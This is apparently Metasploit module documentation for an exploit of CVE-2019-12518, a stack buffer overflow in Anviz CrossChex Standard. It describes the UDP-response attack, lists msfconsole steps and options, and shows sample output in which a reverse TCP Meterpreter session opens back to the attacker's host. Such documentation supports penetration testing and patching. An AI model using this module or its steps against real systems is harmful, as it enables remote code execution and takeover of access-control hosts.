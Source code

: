 ## Introduction

CrossChex is a personnel identity verification, access control, and time
attendance management system compatible with Windows 7,8 & 10. It uses
UDP broadcasts to identify and connect with Access Control devices on a
network. The code used to handle a response from an Access Control
device is vulnerable to a Stack Buffer Overflow attack on CrossChex
versions `Crosschex Standard x86 <= V4.3.12`. Tracked as CVE-2019-12518,
and as such permits arbitrary code execution.

The code used to overflow the Stack Buffer and code an attacker wishes
to be executed as a result of the exploit are sent in a single UDP
packet as a response to the CrossChex broadcast. As both the exploit and
the payload must be contained inside a single UDP packet, an exploit has
a maximum size of `8947 Characters`.

This module exploits CVE-2019-12518 by listening for a CrossChex "new
device" broadcast for a given number of seconds (`TIMEOUT`). It then
responds with a UDP packet containing shellcode for both the Buffer
Overflow exploit and the attacker's chosen payload. The `Space` payload
option ensures no payload of too large a size is used to ensure
successful exploitation. If a broadcast is not detected within the given
`TIMEOUT`, the module exits with a warning.

## Verification Steps

1. Start `msfconsole`
2. `use windows/misc/crosschex_device_bof`
3. `set LHOST vboxnet0`
4. `run`
5. Open CrossChex
6. Navigate to Device > Add
7. Select `Search`
8. Verify payload executes correctly

## Options

1.  `TIMEOUT` Seconds module waits for broadcast, defaults to `1000`.
2.  `CHOST`. Address UDP packet response is sent from. Defaults to `0.0.0.0`.
3.  `CPORT`. Port UDP packet response is sent from. Defaults to `5050` as CrossChex expects communication from this port.

## Compatible Payloads

Any basic x86 windows payload.

## Payload Options

As above.

## Scenarios

```
msf5 exploit(windows/misc/crosschex_device_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] CrossChex broadcast received, sending payload in response
[*] Payload sent
[*] Sending stage (180291 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49160) at 2020-02-10 16:21:13 +0000

meterpreter > ls
Listing: C:\Program Files\Anviz\CrossChex Standard
==================================================
...
```

## References

1. <https://nvd.nist.gov/vuln/detail/CVE-2019-12518>
2. <https://www.0x90.zone/multiple/reverse/2019/11/28/Anviz-pwn.html>
3. <https://www.exploit-db.com/exploits/47734>
